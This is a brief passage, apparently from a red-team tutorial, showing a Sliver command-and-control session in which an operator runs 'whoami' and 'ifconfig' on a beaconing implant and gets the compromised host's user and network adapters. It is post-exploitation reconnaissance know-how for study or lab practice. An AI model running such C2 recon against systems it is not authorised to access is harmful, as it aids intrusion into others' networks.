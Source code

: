 Run a few basic recon commands:
```
sliver (wutai-http) > whoami

Logon ID: XYZ\alice
[*] Tasked beacon wutai-http (964eff62)

[+] wutai-http completed task 964eff62

sliver (wutai-http) > ifconfig

[*] Tasked beacon wutai-http (a59160bb)

[+] wutai-http completed task a59160bb

+-------------------------------------------+
| Bluetooth Network Connection              |
+-------------------------------------------+
| # | IP Addresses      | MAC Address       |
+---+-------------------+-------------------+
| 5 | 169.254.75.145/16 | d8:5d:e2:de:37:08 |
+-------------------------------------------+

+--------------------------------------------+
| Ethernet0                                  |
+--------------------------------------------+
| # | IP Addresses       | MAC Address       |
+---+--------------------+-------------------+
| 6 | 192.168.175.132/24 | 00:0c:29:25:ff:00 |
+--------------------------------------------+
1 adapters not shown.
```
---
End of Part 2.


